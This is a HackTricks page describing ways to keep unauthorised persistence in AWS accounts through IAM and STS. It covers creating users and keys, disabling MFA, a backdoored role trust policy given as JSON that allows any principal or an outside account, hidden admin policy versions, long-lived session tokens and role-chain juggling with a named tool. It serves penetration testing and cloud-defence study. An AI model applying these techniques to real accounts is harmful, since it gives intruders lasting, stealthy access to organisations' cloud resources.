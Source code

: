 # AWS - IAM & STS Persistence

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## IAM

For more information access:

{% content-ref url="../aws-services/aws-iam-and-sts-enum.md" %}
[aws-iam-and-sts-enum.md](../aws-services/aws-iam-and-sts-enum.md)
{% endcontent-ref %}

### Common IAM Persistence

* Create a user
* Add a controlled user to a privileged group
* Create access keys (of the new user or of all users)
* Grant extra permissions to controlled users/groups (attached policies or inline policies)
* Disable MFA / Add you own MFA device
* Create a Role Chain Juggling situation (more on this below in STS persistence)

### Backdoor Role Trust Policies

You could backdoor a trust policy to be able to assume it for an external resource controlled by you (or to everyone):

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": [
                    "*",
                    "arn:aws:iam::123213123123:root"
                ]
            },
            "Action": "sts:AssumeRole"
        }
    ]
}
```

### Backdoor Policy Version

Give Administrator permissions to a policy in not its last version (the last version should looks legit), then assign that version of the policy to a controlled user/group.

### Backdoor / Create Identity Provider

If the account is already trusting a common identity provider (such as Github) the conditions of the trust could be increased so the attacker can abuse them.

## STS

For more information access:

{% content-ref url="../aws-services/aws-iam-and-sts-enum.md" %}
[aws-iam-and-sts-enum.md](../aws-services/aws-iam-and-sts-enum.md)
{% endcontent-ref %}

### Assume role token

Temporary tokens cannot be listed, so maintaining an active temporary token is a way to maintain persistence.

<pre class="language-bash"><code class="lang-bash">aws sts get-session-token --duration-seconds 129600

# With MFA
aws sts get-session-token \
    --serial-number &#x3C;mfa-device-name> \
    --token-code &#x3C;code-from-token>

# Hardware device name is usually the number from the back of the device, such as GAHT12345678
<strong># SMS device name is the ARN in AWS, such as arn:aws:iam::123456789012:sms-mfa/username
</strong># Vritual device name is the ARN in AWS, such as arn:aws:iam::123456789012:mfa/username
</code></pre>

### Role Chain Juggling

[**Role chaining**](https://docs.aws.amazon.com/IAM/latest/UserGuide/id\_roles\_terms-and-concepts.html#Role%20chaining) is a recognized functionality of AWS useful to maintain stealth persistence. \
As you can **assume role to assume another one to assume the first one (indefinitely)**.&#x20;

When a role is assumed the **expiration field of the credentials is refreshed**. Therefore is **2 roles can assume each other**, it's possible to continuously get new credentials.

You can use this [**tool**](https://github.com/hotnops/AWSRoleJuggler/) to keep the juggling going:

```bash
./aws_role_juggler.py -h
usage: aws_role_juggler.py [-h] [-r ROLE_LIST [ROLE_LIST ...]]

optional arguments:
  -h, --help            show this help message and exit
  -r ROLE_LIST [ROLE_LIST ...], --role-list ROLE_LIST [ROLE_LIST ...]
```

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
